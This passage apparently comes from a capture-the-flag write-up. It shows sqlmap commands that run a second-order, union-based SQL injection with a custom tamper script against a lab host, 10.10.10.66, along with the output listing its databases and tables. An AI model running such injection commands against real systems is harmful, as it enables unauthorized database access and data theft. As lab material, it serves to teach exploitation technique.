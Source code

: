 

Adding `--tables` will show the tables. This query fails initially, but
with a suggestion:



    root@kali# sqlmap --technique=U -r login.request --dbms mysql --tamper tamper-nightmare.py --second-order 'http://10.10.10.66/notes.php' -p user --proxy http://127.0.0
    .1:8080 --dbs --tables
    ...
    [06:35:26] [WARNING] in case of continuous data retrieval problems you are advised to try a switch '--no-cast' or switch '--hex'
    [06:35:26] [ERROR] unable to retrieve the table names for any database



Adding `--no-cast` will enable table enumeration:



    root@kali# sqlmap --technique=U -r login.request --dbms mysql --tamper tamper-nightmare.py --second-order 'http://10.10.10.66/notes.php' -p user --proxy http://127.0.0
    .1:8080 --dbs --tables --no-cast
    ...
    [06:36:59] [INFO] fetching tables for databases: 'information_schema, notes, sysadmin'
    [06:36:59] [INFO] used SQL query returns 65 entries
    Database: sysadmin
    [2 tables]
    +---------------------------------------+
    | configs                               |
    | users                                 |
    +---------------------------------------+

    Database: notes
    [2 tables]
    +---------------------------------------+
    | notes                                 |
    | users                                 |
    +---------------------------------------+


    Database: information_schema
    [61 tables]
    +---------------------------------------+
    | CHARACTER_SETS                        |
    | COLLATIONS                            |
    | COLLATION_CHARACTER_SET_APPLICABILITY |
    | COLUMNS                               |
    ...
    | VIEWS                                 |
    +---------------------------------------+
